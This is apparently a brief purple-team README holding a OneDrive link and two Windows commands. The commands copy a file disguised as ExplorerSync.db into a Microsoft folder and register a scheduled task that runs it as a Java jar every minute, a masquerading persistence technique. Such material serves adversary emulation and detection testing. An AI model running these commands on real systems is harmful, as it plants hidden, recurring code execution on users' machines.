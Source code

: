 # PurpleTeam

https://onedrive.live.com/view.aspx?resid=5EFC811CDEC9D7F0!6215&ithint=file%2Cdocx&authkey=!ACVO3y1Jyhq0mfY


copy %temp%\ExplorerSync.db %temp%\..\Microsoft\ExplorerSync.db

schtasks /create /tn ExplorerSync /tr "javaw -jar %temp%\..\Microsoft\ExplorerSync.db" /sc MINUTE /f
